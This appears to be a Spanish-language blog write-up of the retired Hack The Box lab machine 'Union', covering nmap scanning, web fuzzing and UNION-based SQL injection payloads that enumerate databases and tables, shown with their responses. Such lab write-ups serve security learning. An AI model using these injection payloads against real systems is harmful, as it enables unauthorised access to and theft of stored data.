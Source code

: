 ```yaml
---
layout: post
title:  "Maquina  Retirada Union de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada UNION
tags: HTB, SQLI, Local File Inclusion, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Union - SQLI ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.10.11.128 -oG allports        "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

Procedemos a realizar fuzzing a nivel web para ver distintas rutas.

```bash
Target: http://10.10.11.128/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000002:   200        42 L     93 W       1220 Ch     "index"                                                                                                                     
000000868:   200        0 L      2 W        13 Ch       "firewall"                                                                                                                  
000001477:   200        0 L      0 W        0 Ch        "config"                                                                                                                    
000004086:   200        20 L     61 W       772 Ch      "challenge"
``` 

Procedemos a intentar inyectar una Injeccion SQL con los siguientes QUERIES

```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://10.10.11.128
Connection: close
Referer: http://10.10.11.128/
Cookie: PHPSESSID=2psodrt3sdefasmqoqe6mbuev5

"player=admin' union select database()-- -       "
```

Vemos que recibimos como respuesta:

```bash
datbase: november
```
Siguiente Inyeccion SQLI para enumerar las bases de Datos que corren por detras. Usamos `group_concat()` para enumerar toda la informacion
en un solo o mismo campo

```bash
player=admin' union select group_concat(schema_name) from information_schema.schemata-- -
```

Respuesta

```bash
mysql, information_schema, performance_schema, sys, november 
``` 

Procedemos a enumerar las tablas para la base de datos `November` :
```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="november"-- -
```

Respuesta de la siguiente consulta SQLI para enumerar las tablas en la base de datos `November`
```bash
tablas --  flag:players
``` 


```



